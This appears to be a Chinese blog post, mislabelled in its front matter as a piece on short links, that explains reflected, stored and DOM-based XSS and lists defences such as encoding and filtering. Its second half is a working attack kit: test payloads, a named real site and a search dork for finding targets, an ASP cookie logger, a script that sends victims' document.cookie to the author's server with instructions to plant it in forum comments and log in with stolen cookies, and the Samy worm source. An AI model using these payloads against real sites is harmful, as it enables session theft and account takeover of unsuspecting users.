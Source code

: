 ```yaml
---
title: 短链接实现原理
date: 2023-02-21 10:41:21
tags: 安全
---
```


# xss-introduce
# xss introduce
### 理解XSS的攻击手段和原理
## 掌握xss攻击的防范措施
了解XSS的定义
跨站脚本漏洞将允许攻击者在一个网站中执行恶意脚本，OWASP给出的XSS漏洞定义如下：
“一名攻击者可以利用XSS漏洞向不知情的用户发送恶意脚本。终端用户的浏览器无法确定这些脚本是否可信任，并且会自动运行这些恶意脚本。因为它会认为这个脚本来自一个可信任的源，而恶意脚本将访问浏览器中保存的cookie、会话token或其他的敏感信息，并利用这些信息来完成其他的恶意目的，而有些脚本甚至还可以修改页面的HTML代码。”


### 理解xss的原理（必备）
理解xss的攻击方式
掌握xss的防御措施

#### 理解XSS攻击方式：
反射型：发出请求时，XSS代码出现在URL中（典型的特征，攻击脚本写在URL中，是明文的），作为输入提交到服务器端，服务器端解析后响应（），XSS代码随响应内容一起传回给浏览器（解析了XS代码，服务端把内容与HTML文本下发给浏览器，通常是js脚本），最后浏览器解析执行XSS代码这个过程想一次反射，故叫反射型XSS
演示：构建Node应用，演示反射型XSS攻击

存储型：差别在于提交的代码会存储在服务器端（数据库，内存，服务系统等）下次请求页面时不用再提交XSS代码。
1)反射型XSS: 就如上面的例子，也就是黑客需要诱使用户点击链接。也叫作"非持久型XSS“(Non-persistent XSS)
2)存储型XSS:把用户输入的数据”存储“在服务器端。这种XSS具有很强的稳定性。
比较常见的一个场景是，黑客写下一篇包含恶意Javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的Javascript代码。黑客把恶意的脚本保存在服务器端，所以中XSS攻击就叫做"存储型XSS"。
3)DOM based XSS:也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS。
XSS脚本怎么进入服务端？
#### XSS防御措施：
编码：不能对用户所有输入保持原样
对用户输入的数据进行HTML Entity编码
 
过滤：把输入不合法的过滤掉，保持安全性
移除用户上传的DOM属性，如onerror，onclick等
移除用户上传的Style节点，script节点，iframe节点等
对于开发人员来说，首先需要注意的是应该对所有用户提交的内容执行坚如磐石输入验证。这包括网址，查 询字符串，header，POST 数据等所有用户提交的内容。只接受您所希望的字符，在您指定的长度内，和指定 的相应的数据的格式。组织，过滤，或忽略一切。 2. 保护被自动执行或来自第三方网站执行的所有敏感功能。在适当的情况使用会话令牌 27、验证码 28系统或者 HTTP 引用头检查。 3. 如果您的网站必须支持用户提供的 HTML，那么你是处在一个安全明智的下滑坡。然而，也有一些事情可以 做，来保护您的网站。请确保您收到的 HTML 内容是良好的，只包含最少的一组安全标签（绝对没有 JavaScript）， 没有包含任何引用远程的内容（尤其是样式表和 JavaScript）。而且，为了多一点的安全性，请将 httpOnly29添 加到您的 cookie

校正：破坏了正常的页面结构，也是一种XSS攻击
避免直接都HTML Entity解码
使用DOM Parse（文本转成DOM结构）转换，校正不配对的DOM标签 

掌握XSS的防御措施
实战：
构建Node服务和建立一个评论，实例演示XSS的攻击预防


Xss攻击常见测试语句
```
<scrtpt>alert(‘test’)</script>
<svg onload=alert(‘test’)>


http://www.ocelltech.com/en/so.asp
search：inurl:'Product.asp?BigClassName'//google
中华网
*/><script>alert(1)</script>
把alert里面的内容换成document.cookie就可以
*/><script>alert(document.cookie)</script>
一般的做法是<html>
<title>xx</title>
<body>
<%testfile = Server.MapPath("code.txt") //先构造一个路径，也就是取网站根目录，创造一个在根目录下的code.txt路径，保存在testfile中
msg = Request("msg")   //获取提交过来的msg变量，也就是cookie值
set fs = server.CreateObject("scripting.filesystemobject")//创建一个fs对象
set thisfile = fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&msg&"")//像code.txt中写入获取来的cookie
thisfile.close()   //关闭
set fs = nothing%>
</body>
</html>
```




把上述文件保存为cookie.asp文件，放到你自己的网站服务器下。比如这里我们自己搭建的服务器为：http://10.65.20.196:8080。 
XSS构造语句
```
<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script>
```
把上述语句放到你找到的存在XSS的目标中，不过这里最好是存储型xss，比如你找到了某个博客或者论坛什么的存在存储型XSS，你在里面发一篇帖子或者留上你的评论，内容就是上述语句，当其他用户或者管理员打开这个评论或者帖子链接后，就会触发，然后跳转到http://10.65.20.196:8080/cookie.asp?msg=’+document.cookie的页面，然后当前账户的coolie信息就当成参数发到你的网站下的文件里了。然后的然后你就可以那这个cookie登陆了


Samy蠕虫源码
```
1.<div id=mycode style="BACKGROUND:url('java  
2.script:eval(document.all.mycode.expr)')"expr="var B=String.fromCharCode(34);varA=String.fromCharCode(39);function g(){varC;try{varD=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return 
3.C}else{return eval('document.body.inne'+'rHTML')}}function 
4.getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function getQueryParams(){varE=document.location.search;var F=E.substring(1,E.length).split('&');var AS=new Array();for(varO=0;O<F.length;O++){varI=F[O].split('=');AS[I[0]]=I[1]}return AS}var J;varAS=getQueryParams();varL=AS['Mytoken'];varM=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}functiongetClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}functionparamsToString(AV){var N=new 
5.String();var O=0;for(var P 
6.in AV){if(O>0){N+='&'}varQ=escape(AV[P]);while(Q.indexOf('+')!=-1){QQ=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){QQ=Q.replace('&','%26')}N+=P+'='+Q;O++}return 
7.N}function httpSend(BH,BI,BJ,BK){if(!J){return 
8.false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return 
9.true}function findIn(BF,BB,BC){varR=BF.indexOf(BB)+BB.length;varS=BF.substring(R,R+1024);returnS.substring(0,S.indexOf(BC))}functiongetHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';varV=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var Y=W.substring(0,X);return Y}function getXMLObj(){var Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else 
10.if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=newActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return 
11.Z}var AA=g();var AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);varAD=AC.indexOf('D'+'IV');var AE=AC.substring(0,AD);varAF;if(AE){AEAE=AE.replace('jav'+'a',A+'jav'+'a');AEAE=AE.replace('exp'+'r)','exp'+'r)'+A);AF=' 
12.but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function getHome(){if(J.readyState!=4){return}varAU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AGAG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG+=AF;var 
13.AR=getFromURL(AU,'Mytoken');var 
14.AS=new 
15.Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?fuseaction=profile.previewInterests&MytokenMytoken='+AR,postHero,'POST',paramsToString(AS))}}}functionpostHero(){if(J.readyState!=4){return}var AU=J.responseText;var AR=getFromURL(AU,'Mytoken');var 
16.AS=new 
17.Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function 
18.main(){var AN=getClientFID();varBH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&MytokenMytoken='+L,processxForm,'GET')}functionprocessxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var 
19.AS=new 
20.Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to 
21.Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function 
22.httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return 
23.false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return 
24.true}"></DIV> 
```